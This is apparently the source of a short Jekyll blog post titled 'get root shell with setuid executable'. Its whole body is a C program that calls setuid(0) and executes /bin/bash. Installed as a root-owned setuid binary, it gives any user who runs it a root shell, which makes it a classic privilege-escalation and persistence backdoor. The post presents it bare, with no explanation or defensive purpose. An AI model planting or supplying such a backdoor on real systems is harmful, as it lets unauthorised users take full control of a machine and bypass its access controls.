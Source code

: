 ```yaml
---
layout: post
title: "get root shell with setuid executable"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}



<pre><code>
#include <unistd.h>

int main() {
  const char *b = "/bin/bash";
  setuid(0);
  execl(b, b, 0);
}
</code></pre>

